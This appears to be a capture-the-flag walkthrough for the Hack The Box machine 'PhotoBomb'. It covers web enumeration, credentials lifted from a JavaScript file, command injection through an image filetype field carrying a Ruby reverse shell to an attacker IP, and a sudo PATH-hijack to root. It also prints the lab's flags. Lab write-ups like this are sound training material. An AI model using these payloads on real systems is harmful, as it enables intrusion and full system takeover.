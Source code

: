 # PhotoBomb

***
### Domain name
***

Photobomb uses a domain name of ````photobomb.htb````.

open /etc/hosts and add

```
ip_address  photobomb.htb
```

***
### Directory Bruteforce
***

Command: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -u http://photobomb.htb/FUZZ

```
printer                 [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 182ms]
printers                [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 388ms]
printerfriendly         [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 176ms]
printer_friendly        [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 145ms]
printer_icon            [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 687ms]
printer-icon            [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 438ms]
printer-friendly        [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 442ms]
printerFriendly         [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 689ms]
printersupplies         [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 414ms]
printer1                [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 487ms]
                        [Status: 200, Size: 843, Words: 136, Lines: 23, Duration: 312ms]
printer2                [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 559ms]
printericon             [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 490ms]
```

***
### Current plan of attack
***
We currently know that this server is a server for a new startup that is aiming to print photographs for other people. they are using Sinatra to run their web site and have a simple HTTP login form.

* Method 1
    * Hack the web application it self which is Sinatra

* Method 2
    * Brute force login

* Method 3
    * Do a subdomain brute force attack

* Best Idea
    * Start with Method 3 then Method 2 and final Method 3.
***


### Method 3

***
Command:  

```gobuster vhost -u http://photobomb.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 100```  

After I ran this command I found not subdomains so I decided to hit it with a bigger list of subdomains.
```New word list: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt```

Then I used an even bigger list
```Final word list: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt```  


***

### Checked HTB Form

***
Looked in the .js file and for a link to follow

http://pH0t0:b0Mb!@photobomb.htb/printer

Username: pH0t0
Password: b0Mb

***

### Checked Form and Found How To Getting RCE
***
This machine is vulnerable to remote code execution. If you open up burp suite and click on the download button, and you will see the request with three pieces of data. The first piece of data contains then the name of the file to download. This input is checked to make sure no LFI injections will get through by using some regex that cause the page to error out if .. or / is used in the field. The second input is a regex filter input that check that the input is  either PNG or JPG. If the input is not either of those, then it tells the fount end that there is an invalid file type. This field however is still vulnerable. If you place a ; right after the proper file type, every thing after is not checked but executed by the ruby framework. The trick is simply placing a ruby reverse shell from https://www.revshells.com/ and forwarding the request.

Burp Request
```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 79
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Cookie: isPhotoBombTechSupport=46456
Upgrade-Insecure-Requests: 1

photo=almas-salakhov-VK7TCqcZTlw-unsplash.jpg&filetype=jpg; ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.112",4446))'&dimensions=3000x2000
```
To get the flag simple cat user.txt

```
wizard@photobomb:~/photobomb$ cat /home/wizard/user.txt
cat /home/wizard/user.txt
4779f13046e97ddea9d8efa0f814e8e2

```

***
### Privilege Escalation
***
Once you have the user flag it is time to head for the root flag. The first thing to do is run the sudo -l command to see the sudo permissions for the current user.
```
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
We can see from this command that the wizard user can run the /opt/cleanup.sh command as root to clean up his files. Lets look at the contains of this file to see if we can take advantage  of this configuration.

Content of cleanup.sh

```
root@photobomb:~# cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

This file contains references to other files which introduces the ability to change the $PATH to access custom files.


export
```
echo bash > find
chmod +x find

sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

Now all you have to do is get the root flag.

```
root@photobomb:~# cat /root/root.txt
b92895d46baebe10a0994cb2f0a94864
```
